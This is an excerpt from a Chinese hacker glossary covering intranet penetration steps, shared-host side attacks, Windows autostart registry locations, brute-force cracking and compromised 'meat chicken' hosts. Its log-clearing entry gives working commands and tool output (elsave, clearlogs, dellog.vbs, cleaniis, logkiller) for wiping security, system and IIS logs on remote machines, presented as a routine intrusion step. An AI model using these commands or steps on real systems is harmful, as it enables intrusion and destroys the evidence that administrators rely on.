内网渗透其实就是渗透的全称（详情请见本书导读），因为渗透大部分都是在【内网】中进行的，所以能否进入内网是渗透的前提条件。

【内网】词条中已经谈到，内部网络的主机通过路由器或其他网关，利用 NAT 技术访问外部网络，这样外部网络是无法直接访问内网的，这就是渗透进内网的难点所在。能否解决这个问题也就成了渗透的关键。

一般来说，进入内网有几个最基本的方法：

- 1. 第一种就是直接得到内网与外网进行通信的【网关】的控制权。它可能是一台普通的主机，也可能是一个路由器或者是带路由功能的防火墙等，这个方法是最困难的一种。
- 2. 第二种就是得到既在内网，又在外网的机器的控制权，也就是具有外网与内网两个 IP 的主机。这样的主机一般是作为 WEB 服务器或者是 FTP 服务器来方便外界访问，因为这种主机提供了这种服务，所以入侵的可能性比较高。
- 3. 第三种是得到处于内网中的某台主机的控制权，因为其没有外网 IP，无法直接访问，所以一般必须通过【社会工程学】让其运行反弹木马来得到控制权。

#### HACK TIPS

渗透是一个庞大并需要耐心的工程，其基本的步骤如下：

- 1、信息收集过程  
  在这一步还不会直接对被测目标进行扫描，一般先从网络上搜索一些相关信息，包括 Google Hacking、Whois 查询，获得 DNS 等信息（如果考虑进行社会工程学的话，这里还可以相应地从邮件列表／新闻组中获取目标系统中一些边缘信息，如内部员工账号组成、身份识别方式、邮件联系地址等）。

- 2、漏洞扫描  
  这一步主要针对具体系统目标进行。如通过第一步的信息收集，已经得到了目标系统的 IP 地址分布及对应的域名，并且我们已经通过一些分析过滤出少许的几个攻击目标，这时就可以对它们进行有针对性的漏洞扫描。

- 3、漏洞利用  
  有时候，通过服务／应用扫描后，我们可以跳过漏洞扫描部分，直接到漏洞利用。因为很多情况下我们根据目标服务／应用的版本就可以到一些安全网站上获取针对该目标系统的漏洞利用代码。如到 milw0rm、securityfocus、packetstormsecurity 等网站，上面都对应有搜索模块。实在没有，我们也可以尝试在 Google 上搜索“应用名称 exploit”“应用名称 vulnerability”等关键字。

- 4、权限提升  
  在前面的一些工作中，你或许已经得到了一些控制权限，但是对于进一步攻击来说却还是不够。例如：你可能很容易地能够获取 Oracle 数据库的访问权限，或者是得到了 UNIX（AIX、HP-UX、SUNOS）的一个基本账号权限，但是当你想进行进一步的渗透测试时，问题就来了：你发现你没有足够的权限打开一些密码存储文件，你没有办法安装一个 SNIFFER，你甚至没有权限执行一些很基本的命令……这时候你自然而然地就会想到提升权限这个途径了。

- 5、密码破解  
  有时候，目标系统任何方面的配置都是无懈可击的，但并不是说就完全没办法进入。最简单地说，一个缺少密码安全策略的认证系统就等于你安装了一个不能关闭的防盗门。很多情况下，一些安全技术研究人员对此不屑一顾，但是无数次的安全事故结果证明：往往破坏……力最大的攻击起源于最小的弱点，例如弱口令、目录列表、SQL 注入绕过验证等等。所以，对于一些专门的安全技术研究人员来说，这一块意义不大，但是对于一个 ethical hacker 来说，这一步骤是有必要而且绝大部分情况下是必须的。

目前比较好的网络密码暴力破解工具有：thc-hydra、brutus。当然，有些单机破解软件还是必不可少的，比如：Ophcrack、rainbowcrack（国人开发，赞一个）、cain、L0phtCrack（破解 Windows 密码）、John the Ripper（破解 UNIX/LINUX），当然还少不了一个 FindPass……

- 6、日志清除
- 7、进一步渗透

攻入了 DMZ 区，一般情况下我们也不会获取多少有价值的信息。为了进一步巩固战果，我们需要进行进一步的内网渗透，到这一步就真的算是无所不用其极，最常用且最有效的方式就是 Sniff 抓包（可以加上 ARP 欺骗）。当然，最简单的方法就是，你可以翻翻已入侵机器上的一些文件，很可能就包含了你需要的一些连接账号。

比如说你入侵了一台 Web 服务器，那么绝大部分情况下你可以在页面的代码或者某个配置文件中找到连接数据库的账号，你也可以打开一些日志文件看一看。除此之外，你可以直接回到第二步漏洞扫描来进行。

## 匿名 黑客技术基础

匿名即不露身份、个人特征或不说明是什么人物。在计算机中，它代表着同样性质的用户。也就是说，以匿名身份登录的用户不需要用户名与密码就能够登录某些系统，最具代表性的莫过于匿名 FTP 服务器了。

当想大量共享资源时，由于用户数量过于庞大，不可能为每个用户都建立账号，这个时候建立匿名用户登录是最好的选择。当开启匿名用户登录时，任何人都不需要输入密码就可以登录 FTP 服务器，这样极大地方便了管理。不过，如果权限设置不当，同样也可能带来一些安全问题。

## 盘符 操作系统及其相关

盘符是 Windows 系统对于磁盘存储设备的标识符，一般使用 26 个英文字母加上一个冒号（:）来标识。由于历史的原因，早期的 PC 机一般装有两个软盘驱动器，所以，“A:”和“B:”这两个盘符就用来表示软驱，软盘尺寸有 8 寸、5 寸、3.5 寸等。而硬盘设备（一般是除软盘设备以外的设备，比如一些移动存储设备）的盘符则从字母“C:”开始，一直到“Z:”来进行选择分配。

如图 P-1，就是 Windows 系统中“我的电脑”里的各个盘符。对于 UNIX、LINUX 系统来说，则没有盘符的概念，但是目录和路径的概念是相同的。



## 旁注攻击——攻击方法与行为，渗透技术

旁注攻击在网络上对于 Web 服务器来说是攻击力最大的一种了，无数大型的站点（一些甚至是黑客站点）都被这种攻击所击倒。因为一个网站所在的服务器很可能存在其他多个网站，当这个网站因安全措施做得很好而无法进行攻击时，可以对其他也在这个服务器上的网站进行攻击，这样最终可以同样达到获得这个服务器权限的目的，这就是旁注的核心思想所在。

也就是说，旁注的关键其实就是看同一台服务器上是否绑有多个站点。因为现在大部分网站都是使用的虚拟主机，如果每一个网站都是一台服务器的话，那服务器提供商肯定不划算，所以大部分服务器都会为许多站点做服务器，这样攻击成功的可能性会大大增加。而为旁注提供可能性的关键技术就是 WHOIS 服务（详情请见其词条），通过 WHOIS 可以查询到同一个 IP 上所绑定的域名，这样也就知道了还有一些什么网站。

其中最著名的 WHOIS 服务提供网站为 http://whois.webhosting.info，如图 P-2，它为旁注提供了有力的保障。


## HACK TIPS:

很多时候，一台主机上可能就只有一个站点，这个时候旁注就失去了它的作用。这时还可以试着扫描同网段的其他主机，一般情况下，同网段的其他主机很可能跟目标是在一个内网里，甚至就是目标站点的分站点。这样，如果能够拿下其他的服务器，再利用 CAIN 进行嗅探，那得手的可能性还是很大的。

## 批处理——操作系统及其相关

批处理，也称为批处理脚本，英文为 BATCH，批处理文件后缀【BAT】就取其名称的前三个字母。它的构成没有固定格式，每一行可视为一个命令，每个命令里可以含多条子命令，从第一行开始执行，直到最后一行结束。它运行的平台是 DOS，批处理有一个很鲜明的特点：使用方便、灵活，功能强大，自动化程度高。

## HACK TIPS:

对于高手来说，批处理是强大的入侵工具，它能以简单的方式实现一些复杂的功能，如克隆账号、替换服务等。在几年前，笔者甚至见过一个用批处理写成的蠕虫，足以见证批处理的强大。所以熟练地使用批处理是十分有必要的。

## 偏移量 程序语言与开发

在计算机领域，偏移量是一个很重要，同时也是很难描述的一个概念。在内存中，每个数据的存储单元都有一个确切的位置，许多程序要对这些数据进行操作时就要知道其所处的确切位置。程序编写时有专门处理这方面的机制，也就是【指针】，而偏移量就是两个数据存储单元中的距离。

## 苹果机 特定名称

苹果机就是苹果（APPLE）公司出产的 PC 机，之所以称苹果机，不只是因为其由苹果公司生产，也因为其核心区别于 IBM 标准 PC（一般为使用 Windows 环境），同时使用的是苹果公司生产的 Mac OS 操作系统。

苹果机具体的配置也不尽相同，但较 IBM 标准 PC 来看，苹果机的配置属于中高端阶段，因为苹果机多用于图形领域。此外，苹果机往往代表了潮流和时尚，代表了高端与精美的工业设计。但是由于其并不使用 Windows 操作系统，而使用 Mac OS X 操作系统，不兼容 Windows 软件，使得习惯 Windows 的用户很难上手，所以出现了苹果机目前叫好不叫座的情况。

苹果公司是美国著名的老牌计算机公司，成立于 1977 年，是个人电脑最早的倡导者和著名生产商。它所生产的苹果系列电脑，包括 iMac、PowerMac、iBook、PowerBook 等产品线的众多硬件产品，一直是个人电脑市场的主流产品之一，并曾提出过很多新概念，其产品也掀起过多次流行潮，风行一时，如图 P-3。


图 P-3

Macintosh 操作系统是苹果公司出品的著名个人电脑操作系统，苹果电脑与 Macintosh OS 的配合是图形工作站的最佳选择，其产品在图形图像处理领域一直有较大的市场份额。除个人电脑以外，该公司在半导体研发方面也有一定实力，曾经参与开发了著名的 PowerPC 芯片。目前，苹果电脑公司在全球几十个国家建立了分公司或代表机构，其产品也行销全世界。

## 启动项 操作系统及其相关

启动项就是系统启动时会在系统前台或后台自动运行的项目。当 Windows 完成登录过程，进程表中会伴随系统启动出现许多其他的进程，这在方便使用者的同时也带来许多安全隐患，因为许多【木马】与病毒也会修改这些启动项，让其伴随系统启动而运行。

下面列出几大常见启动项：

- 一、“启动”文件夹——最常见的自启动程序文件夹。  
它位于系统分区的“Documents and Settings->User->[开始]菜单->程序”目录下，这时的 User 指的是登录的用户名。

- 二、“All Users”中的自启动程序文件夹——另一个常见的自启动程序文件夹。  
它位于系统分区的“Documents and Settings->All Users->[开始]菜单->程序”目录下。前面提到的“启动”文件夹运行的是登录用户的自启动程序，而“All Users”中启动的程序是在所有用户下都有效（不论你用什么用户登录）。

- 三、“Load”键值——一个埋藏得较深的注册表键值。  
位于 HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows\load 主键下。

- 四、“Userinit”键值——用户相关  
它则位于 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit 主键下，也是用于系统启动时加载程序。一般情况下，其默认值为“userinit.exe”，由于该子键的值中可使用逗号分隔开多个程序，因此，在键值的数值中可加入其它程序。

- 五、“Explorer\Run”键值——与“Load”和“Userinit”两个键值不同的是，“Explorer\Run”同时位于 HKEY_CURRENT_USER 和 HKEY_LOCAL_MACHINE 两个根键中。  
它在两个根键中的位置分别为：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run 和 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run。

- 六、“RunServicesOnce”子键——它在用户登录前及其它注册表自启动程序加载前加载。  
这个键同时位于：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce 和 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce。

- 七、“RunServices”子键——它也是在用户登录前及其它注册表自启动程序加载前加载。  
这个键同时位于：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices 和 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices。

- 八、“RunOnce\Setup”子键——其默认值是在用户登录后加载的程序。  
这个键同时位于：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce\Setup 和 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce\Setup。

- 九、“RunOnce”子键——许多自启动程序要通过 RunOnce 子键来完成第一次加载。  
这个键同时位于：HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce 和 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce。

位于 HKEY_CURRENT_USER 根键下的 RunOnce 子键在用户登录及其它注册表的 Run 键值加载程序前加载相关程序，而位于 HKEY_LOCAL_MACHINE 主键下的 RunOnce 子键则是在操作系统处理完其它注册表 Run 子键及启动文件夹内的程序后再加载的。

在 Windows XP 中还多出一个 HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx 子键，其道理相同。

- 十、“Run”子键——目前最常见的自启动程序用于加载的地方。  
这个键同时位于：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 和 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`。  
其中位于 `HKEY_CURRENT_USER` 根键下的 Run 键值紧接着 `HKEY_LOCAL_MACHINE` 主键下的 Run 键值启动，但两个键值都是在“启动”文件夹之前加载。

- 十一、再者就是 Windows 中加载的服务了，它的级别较高，用于最先加载。  
其位于：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services` 下，看到了吗？你所有的系统服务加载程序都在这里了！

- 十二、Windows Shell——系统接口  
它位于：`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon` 下面的 Shell 字符串类型键值中，默认值为 `Explorer.exe`。当然，可能木马程序会在此加入自身并以木马参数的形式调用资源管理器，以达到欺骗用户的目的。

- 十三、BootExecute——属于启动执行的一个项目  
可以通过它来实现启动 Native 程序，Native 程序在驱动程序和系统核心加载后将被加载，此时会话管理器（`smss.exe`）进行 Windows NT 用户模式，并开始按顺序启动 Native 程序。  
它位于注册表中的：`HKEY_LOCAL_MACHINE\System\ControlSet001\Session Manager` 下面，有一个名为 BootExecute 的多字符串值键，它的默认值是 `autocheck autochk *`，用于系统启动时的某些自动检查。这个启动项目里的程序是在系统图形界面完成前就被执行的，所以具有很高的优先级。

- 十四、策略组加载程序——打开 `Gpedit.msc`，展开“用户配置—管理模板—系统—登录”，就可以看到“在用户登录时运行这些程序”的项目，你可以在里面添加。  
在注册表中的：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Group Policy Objects\` 和 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run` 中，你也可以看到相对应的键值。

## 桥接 黑客技术基础

桥接是网络技术中经常遇到的概念，它可以让两个分别独立的网络合并成同一个【内网】，即使中间有路由器。

当一个路由器配置了桥接选项后，会处理所有接口上的所有数据帧，并实时调查每个主机的位置。若在某个接口上收到一个帧，就会在桥接表内置入一个条目，列出发送数据的主机和接收到数据帧的接口 MAC 地址，这样路由表就在通信中不断完善起来。

透明桥接使路由器对主机来讲是透明的，其作用就相当于一个局域网交换机。若是同一个 LAN 内的两个主机通信，数据帧就不会被发送到其它的接口；因为在桥接表里，数据帧都来自相同的接口；若是收到一个帧，而其中的 MAC 地址不在自己的桥接表里，就会将这个帧扩散到所有的接口。桥接还会扩散所有的广播包，占用网络的有效带宽，造成网络的堵塞。

我们知道，Cisco IOS 支持多种类型的桥接，比如：透明桥接、封装桥接、源路由桥接、源路由透明桥接、源路由转换桥接。

## 请求注解 特定名称

即 RFC，它包含了关于 Internet 的几乎所有重要的文字资料。如果你想成为网络方面的专家，那么 RFC 无疑是最重要、也是最经常需要用到的资料之一，所以 RFC 享有网络知识圣经之美誉。

通常，当某家机构或团体开发出了一套标准，或提出对某种标准的设想，想要征询外界的意见时，就会在 Internet 上发放一份 RFC，对这一问题感兴趣的人可以阅读该 RFC 并提出自己的意见。

绝大部分网络标准的制定都是以 RFC 的形式开始，经过大量的论证和修改过程，由主要的标准化组织所制定的。但在 RFC 中所收录的文件并不都是正在使用或为大家所公认的，也有很大一部分只在某个局部领域被使用，或并没有被采用。

一份 RFC 具体处于什么状态，都在文件中作了明确的标识，以下是几个较为稳定的 RFC 链接，以及几个重要的标准化组织的网站链接：

- http://www.rfc.net  
  - RFC 的官方站点，可以检查 RFC 最新的更新情况
- http://www.ietf.org  
  - 最重要的 Internet 组织之一
- http://sunsite.dk  
  - RFC 查询非常强大（可以以 FTP 登录下载全部 RFC 文档）
- http://www.iso.ch  
  - ISO—国际标准化组织
- http://standards.ieee.org  
  - IEEE—电气与电子工程师协会
- http://web.ansi.org  
  - ANSI—美国国家标准化组织
- http://www.itu.int  
  - ITU—国际电信同盟
- 中文网站：  
  - http://www.cnpaf.net/  
  - 中国协议分析网

## HACK TIPS:

对于想研究底层协议攻击的朋友来说，RFC 是不可或缺的好帮手，因为它包含了各种协议的资料，想要弄清一个协议的来龙去脉，就一定要去查 RFC。

## 穷举法 致富方法与行为

穷举法就是密码破解中经常遇到的一个概念，也就是尝试所有可能的字符组合进行密码破解，它也叫【暴力破解】法。

这种方法很像数学上的“完全归纳法”，并在密码破译方面得到了广泛的应用。简单地说，就是将密码进行逐个推算，直到找出真正的密码为止。

比如一个四位并且全部由数字组成的密码，共有 10000 种组合，也就是说最多我们会尝试 10000 次才能找到真正的密码。利用这种方法我们可以运用计算机来进行逐个推算，这样我们破解任何一个密码也都只是一个时间问题。

## 区段 免杀技术

在 PE 文件中，文件被分为几个不同的数据段，每个段有不同的功能，这样的数据段就叫做区段。

## 区段偏移 免杀技术

即每个区段第一个字节的位置。

## 权限 操作系统及其相关

权限可以把它理解为系统对用户能够执行的功能操作所设立的额外限制，用于进一步约束计算机用户能操作的系统功能和内容访问范围。或者说，权限是指某个特定的用户具有特定的系统资源使用权力。

## 权限提升 渗透技术

即【提权】，详情请见其词条。

## 任务管理器 操作系统及其相关

任务管理器是 Windows 中一个很重要的管理工具，如图 R-1，它提供了有关计算机性能的信息，并显示了计算机上所运行的程序和进程的详细信息；如果连接到网络，那么还可以查看网络状态并迅速了解网络是如何工作的。

启动任务管理器有以下几个方法：最常见的方法是同时按下“Ctrl+Alt+Del”组合键。不过如果在 Windows 95/98 下不小心连续按了两次这个组合键，则可能会导致 Windows 系统重新启动，使得此前还未保存的数据丢失，常造成用户欲哭无泪。不过现在 XP 修改了这个 BUG，而是在任务管理器上添加了关机和重新启动的选项。另外，按下“Ctrl+Shift+Esc”组合键也可以打开任务管理器。如果要用鼠标调出任务管理器，可以右键单击任务栏的空白处，然后选择“任务管理器”命令。


图 R-1

任务管理器的用户界面提供了文件、选项、查看、窗口、关机、帮助等几个大菜单项。例如“关机”菜单下可以完成待机、休眠、关闭、重新启动、注销、切换等操作。

在任务管理器界面下还有应用程序、进程、性能、联网、用户等五个标签页，界面底部则是状态栏，从这里可以查看到当前系统的进程数、CPU 使用率、内存使用量等信息。默认设置下，系统每隔两秒钟对信息进行 1 次自动更新，也可以点击“查看”－“更新速度”菜单重新设置。

下面就把上面所说的各个功能逐一介绍一下：

- 1. 应用程序

这里显示了所有当前正在运行的应用程序，不过它只会显示当前已打开窗口的应用程序，而 QQ、MSN Messenger 等最小化至系统托盘区的应用程序则并不会显示出来。你可以在这里点击“结束任务”按钮直接关闭某个应用程序，如果需要同时结束多个任…

## R、黑客词典

务，可以按住 Ctrl 键进行复选；点击“新任务”按钮，可以直接打开相应的程序、文件夹、文档或 Internet 资源，如果不知道程序的名称，可以点击“浏览”按钮进行搜索。其实这个“新任务”的功能看起来有些类似于“开始”菜单中的“运行”命令。

- 2、进程

这里显示了所有当前正在运行的进程，包括应用程序、后台服务等，那些隐藏在系统底层深处运行的病毒程序或木马程序都可以在这里找到，当然前提是你要知道它的名称。

找到需要结束的进程名，然后执行右键菜单中的“结束进程”命令就可以强行终止。不过，这种方式将丢失未保存的数据，而且如果结束的是系统服务，则系统的某些功能可能无法正常使用。

> 注：Windows 的任务管理器只能显示系统中当前进行的进程，而 Process Explorer 等专业程序可以树状方式显示出各个进程之间的关系，即某一进程启动了哪些其他的进程；还可以显示某个进程所调用的文件或文件夹，如果某个进程是 Windows 服务，则可以查看该进程所注册的所有服务，需要的朋友可以从 http://www.skycn.com/soft/17580.html 下载。

- 3、性能

从任务管理器中我们可以看到计算机性能的动态概念，例如 CPU 和各种内存的使用情况，如图 R-2。

CPU 使用情况：表明处理器工作时间百分比的图表，该计数器是处理器活动的主要指示器，查看该图表可以知道当前使用的处理时间是多少。

CPU 使用记录：以波形图表显示处理器的使用情况，图表中显示的采样情况取决于“查看”菜单中所选择的“更新速度”设置值。“高”表示每秒 2 次，“正常”表示每两秒 1 次，“低”表示每四秒 1 次，“暂停”表示不自动更新。

PF 使用情况：正被系统使用的页面文件的量。

页面文件使用记录：显示页面文件的量随时间变化情况的图表，其显示的采样情况取决于“查看”菜单中所选择的“更新速度”设置值。

总数：显示计算机上正在运行的句柄、线程、进程的总数。

执行内存：分配给程序和操作系统的内存，由于虚拟内存的存在，“峰值”可以超过最大物理内存，“总数”值则与“页面文件使用记录”图表中显示的值相同。

物理内存：计算机上安装的总物理内存，也称 RAM。“可用”表示可供使用的内存容量，“系统缓存”显示当前用于映射打开文件的页面的物理内存。

内核内存：操作系统内核和设备驱动程序所使用的内存。“页面”是可以复制到页面文件中的内存，由此可以释放物理内存；“非分页”是保留在物理内存中的内存，不会被复制到页面文件中。


- 4、联网

这里显示了本地计算机所连接的网络通信量的指示，使用多个网络连接时，我们可以在这里比较每个连接的通信量，当然只有安装网卡后才会显示该选项。

- 5、用户

这里显示了当前已登录和连接到本机的用户数、标识（标识该计算机上的会话的数字 ID）、活动状态（正在运行、已断开）、客户端名，可以点击“注销”按钮重新登录，或者通过“断开”按钮中断与本机的连接。如果是局域网用户，还可以向其他用户发送消息呢。

### 操作系统及其相关

日志是用来存储程序、服务或操作系统产生的消息记录的文件。在入侵过程中，最重要的步骤之一就是清除日志。Windows 中就有各种各样的系统日志文件，如应用程序日志、安全日志、系统日志、Scheduler 服务日志、FTP 日志、WWW 日志、DNS 服务器日志等，这些根据你系统开启的服务不同而有所不同。

## 以下是 Windows 日志文件默认位置：

- 应用程序日志、安全日志、系统日志、DNS 日志默认位置都在：`%systemroot%\system32\config` 这个目录里，默认文件大小 512KB，管理员都会改变这个默认大小。
- 安全日志文件：`%systemroot%\system32\config\SecEvent.EVT`
- 系统日志文件：`%systemroot%\system32\config\SysEvent.EVT`
- 应用程序日志文件：`%systemroot%\system32\config\AppEvent.EVT`
- Internet 信息服务 FTP 日志默认位置：`%systemroot%\system32\logfiles\msftpsvc1\`，默认每天一个日志
- Internet 信息服务 WWW 日志默认位置：`%systemroot%\system32\logfiles\w3svc1\`，默认每天一个日志
- Scheduler 服务日志默认位置：`%systemroot%\schedlgu.txt`

这里特别说一下比较重要的 FTP 日志和 WWW 日志。FTP 日志和 WWW 日志在默认情况下是每天生成一个日志文件，包含了该日的一切记录，文件名通常为 ex(年份)(月份)(日期)。例如 ex001023，就是 2000 年 10 月 23 日产生的日志，用记事本就可直接打开，一般内容如下（括号内为解释）：

```text
#Software: Microsoft Internet Information Services 5.0
#Version: 1.0
#Date: 20001023 0315
#Fields: time cip csmethod csuristem scstatus
0315 127.0.0.1 [1]USER administrator 331
0318 127.0.0.1 [1]PASS 530
032:04 127.0.0.1 [1]USER nt 331
032:06 127.0.0.1 [1]PASS 530
032:09 127.0.0.1 [1]USER cyz 331
0322 127.0.0.1 [1]PASS 530
0322 127.0.0.1 [1]USER administrator 331
0324 127.0.0.1 [1]PASS 230
0321 127.0.0.1 [1]MKD nt 550
0325 127.0.0.1 [1]QUIT 550
```

从以上日志记录里就能看出，IP 地址为 127.0.0.1 的用户一直试图登录系统，换了四次用户名和密码才成功。而且我们从中也能得知入侵者的入侵时间、IP 地址以及探测的用户名。如上面的人侵者最终是用“administrator”用户名进入的，那么我们就要考虑更改此用户的密码，或者重命名 administrator 用户。

下面来介绍一下各种清除日志的工具，首先看看基于 ipc$ 的远程删除日志工具，我们介绍两个，一个是 elsave，相关命令格式及使用示例如下：

```text
命令格式：elsave [-s \\server] [-l log] [-F file] [-C] [-q]
具体的参数如下：
-s  指定要保存或清除日志的服务器
-l  指定要保存或清除日志名称
-F  指定要保存的文件名，必须是绝对路径
-C  清除日志
-q  把错误的日志写到事件日志中
```

如果我们要删除远程机器的应用程序日志，命令格式如下：

```bash
elsave -s \\192.168.0.77 -l "application" -C
```

# 黑客词典

同样的，要删除安全日志和系统日志，就在 -l 参数后跟上“security”或“system”。另外一个工具是 clearlogs，命令格式及参数如下：

```text
命令格式：clearlogs [\\computename] <-app / -sec / -sys>
参数说明：
computename  计算机名
-app   清除应用程序日志
-sec   清除安全日志
-sys   清除系统日志
```

这两个工具都需要与远程主机建立 IPC 会话来完成，那么如果没有 IPC 该怎么办呢？别急，还可以基于 WMI（Windows 管理规范）来清除。这里给大家介绍个 vbs 脚本文件 dellog.vbs，我们只需要用 cscript 来执行它即可，命令为：**cscript dellog.vbs**，显示如下：

```text
Microsoft (R) Windows 脚本宿主版本 5.1 for Windows
版权所有 (C) Microsoft Corporation 1996-1999. All rights reserved.
****************************************************************
RCLS v1.06
Remote Clear eventLogs Script, by zzzEVAzzz
Welcome to visite www.isgrey.com
Usage:
cscript F:\tools\rizhi\delog.vbs targetIP username password [lognamelist]
lognamelist...
  [logname1[,logname2...]]   clear specified logs
  *|-a|--all                 clear all logs
  -v|--view|NULL             enum log names
****************************************************************
```

其中完整的命令格式为：**cscript F:\tools\rizhi\dellog.vbs targetIP username password [lognamelist]**，关键参数如下：

- `logname1[,logname2...]`：清除指定 logs
- `*|-a|--all`：清除所有日志

接着我们来看看清除 IIS 日志的工具。IIS 日志保存在 `%systemroot%\system32\logfiles\` 下，如果启动了 web server 的话，那么就会在上述路径下多出一个 W3SVC1 文件夹，用来存储 web 服务日志。如果启动了 IIS 自带的 FTP 服务，那么还会有个 MSFTPSVC1 的文件夹，里面是 FTP 的日志。让我们来看看如何本地清除 IIS 相关的日志吧，要用到的工具是 cleaniis.exe，其命令格式及示例如下：

```text
iisantidote <logfile dir> <ip or string to hide>
iisantidote <logfile dir> <ip or string to hide> stop
stop option will stop iis before clearing the files and restart it after
<logfile dir> exemple : c:\winnt\system32\logfiles\w3svc1\ dont forget the \\

下面来举几个例子：
cleaniis c:\winnt\system32\logfiles\w3svc1\ 10.24.9.100
// 清除 log 中所有此 IP 地址的访问记录
cleaniis c:\winnt\system32\logfiles\w3svc1\ /shop/admin/
// 清除 log 中所有对此目录的访问记录
cleaniis c:\winnt\system32\logfiles\w3svc1\ 10.24.9.100 stop
// 使用 stop 参数进行日志清除
```

最后介绍一个功能十分强大的日志清除工具 logkiller，它几乎可以清除所有的系统日志，包括应用程序日志、安全日志、系统日志、IIS 日志、系统本身 FTP 服务日志、系统本身 SMTP 服务日志、计划任务日志。

它的使用非常简单，直接输入 logkiller，显示如下信息，一切自动运行，最后将所有日志清除完毕。

```text
Log Killer V1.0 By WinEggDrop
Cleaning Event Logs......
Clean Application Event Log Successfully
Clean Security Event Log Successfully
Clean System Event Log Successfully
-------------------------
Backing Up Services Status...... Done
-------------------------
Stopping Services......
The Service "MSFTPSVC" Doesn't Exist
Stopping The Service "SMTPSVC"......
Stopping The Service "W3SVC"......
Stopping The Service "SCHEDULE"......
-------------------------
Deleting All Log Files......
Delete C:\WINNT\System32\LogFiles\W3SVC1\ex000811.log Successfully
Remove Directory C:\WINNT\System32\LogFiles\W3SVC1 Successfully
Remove Directory C:\WINNT\System32\LogFiles Successfully
-------------------------
Deleting Schedule Event Log File......
Delete C:\WINNT\SchedLgU.txt Successfully
-------------------------
Restoring Services Status......
Starting Service "SMTPSVC"
Starting Service "W3SVC"
Starting Service "SCHEDULE"
-------------------------
Mission Accomplished
```

## 容错处理 程序语言与开发

容错处理又称异常处理或异常捕捉，它是在程序设计时常用到的一种错误处理机制，这在程序开发时是很有作用的。有经验的开发人员都能体会到，在开发项目的过程中，核心业务代码的编写时间只占 20%-30%，而用于开发容错代码的时间却占 70%-80%，这大大降低了开发的效率。

所以，在很多语言中都提供了这种容错处理的机制，一旦程序发生异常则立即执行到已经设计好的代码中去，这样不论发生什么错误，都可以进行及时的处理，从而不至于使整个程序崩溃。

## HACK TIPS:

没有很好的容错处理而造成的安全问题在互联网中比比皆是，因为这样很容易使一些脚本将自己的源代码或关键的数据暴露给用户，“爆库”技术就是最好的例子。

这种处理方式在各个语言中略有不同，ASP 中容错语句是 on error resume next，而在 JAVA/JSP 中则是用 try{} 包括会发生错误的语句，然后再 catch{} 捕捉错误。

如果有很好的容错机制，即使存在 SQL 注入这样的漏洞，也不会将入侵者想要的信息反馈回去。这样，入侵者只能盲人摸象般地进行无头绪的操作，使得入侵难度大大增加。

## R.5 黑客词典

## 【肉鸡】特定名称

肉鸡是国内黑客圈中出现频率较高的词语之一，所谓肉鸡就是指完全被入侵者控制的机器，它可以是个人电脑，也可以是服务器。控制肉鸡的形式是多种多样的，可以通过【后门】、【木马】，或者是开放了【终端服务】的服务器等，这些都可以称为肉鸡。

肉鸡也是【黑色产业链】中一个重要的组成部分，许多计算机沦为肉鸡后会像真实世界中的肉鸡那样被交易，同时根据其性能及重要性来划分价格，这些肉鸡很可能被组成【僵尸网络】，或者利用其大规模点击广告，赚取广告费等。

## 【蠕虫】病毒与恶意软件

